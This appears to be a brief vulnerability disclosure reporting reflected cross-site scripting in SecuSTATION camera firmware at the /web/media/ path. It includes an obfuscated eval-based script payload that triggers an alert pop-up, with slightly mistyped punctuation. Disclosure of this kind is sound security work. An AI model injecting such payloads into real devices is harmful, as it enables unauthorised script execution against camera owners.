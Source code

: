 # SecureSTATION Reflected XSS vulnerability exists

## Vulnerability details：

​	The path to access the vulnerable device is as follows：http://VulDevice/web/media/

![image-20241217100348501](https://github.com/kklzzcun/Camera/tree/main/assets/image-20241217100348501.png)

 payload：?<script/>eval(/ale/,source+/rt/,source+/(190)/. source)(/script>

![image-20241217100507713](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100507713.png)

A pop-up window will appear after placing the package.

![image-20241217100543071](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100543071.png)

SecuSTATION Camera V2.5.5.3116-S50-SMA-B20160811A and lower













































































